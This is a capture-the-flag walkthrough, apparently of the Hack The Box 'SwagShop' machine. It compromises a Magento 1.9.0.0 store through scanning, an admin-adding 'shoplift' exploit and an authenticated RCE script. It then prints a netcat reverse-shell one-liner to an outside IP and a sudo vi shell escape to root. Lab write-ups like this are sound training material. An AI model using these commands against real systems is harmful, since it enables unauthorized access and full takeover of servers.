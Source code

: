 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

page check
![](images/Pasted%20image%2020241217083018.png)

Then I would continue to enumerate the web-contents.
```
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 277]

```

To be honest, in this place, nothing useful for us.

So I would try to get the exploits and try them to hope they gonna worked.
Looking at both Google and searchsploit, I’l find a bunch of exploits for Magento. First, I’ll use one called “shoplift” exploit to add an admin user. I’ll download the python script and run it:
```
python2 poc.py 10.10.10.140                                                             
WORKED
Check http://10.10.10.140/admin with creds ypwq:123

```

Then we can login successfully into `http://10.10.10.140/index.php/admin`
![](images/Pasted%20image%2020241217083904.png)
And we can also get the version `Magento ver. 1.9.0.0` from the bottom of this page.
from `searchsploit` we can find something useful
```
searchsploit Magento          
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity  | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script  | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Sess | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/contro | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scr | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code  | php/webapps/37811.py
Magento eCommerce - Local File Disclosure           | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution           | xml/webapps/37977.py
Magento eCommerce CE v2.3.5-p2 - Blind SQLi         | php/webapps/50896.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilit | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File I | php/webapps/35052.txt
Magento ver. 2.4.6 - XSLT Server Side Injection     | multiple/webapps/51847.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 | php/webapps/48135.php
---------------------------------------------------- ---------------------------------
```
`Magento CE < 1.9.0.1 - (Authenticated) Remote Code  | php/webapps/37811.py` seems like a good choice for us.

In this place, because of python2, the exploit script seems like not valid or good here.
So i prefer another one `https://github.com/Hackhoven/Magento-RCE.git`

```
python3 magento-rce-exploit.py http://swagshop.htb/index.php/admin/ whoami
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
www-data

So the rce payload would be 
python3 magento-rce-exploit.py 'http://swagshop.htb/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 443 >/tmp/f"
```

In this place, I could not find any configurations.
But I found 
```
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

From GTBOBins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo vi -c ':!/bin/sh' /dev/null

so in this place, 
sudo vi /var/www/html/test -c ':!/bin/sh' /dev/null
Then we can get the root shell.
```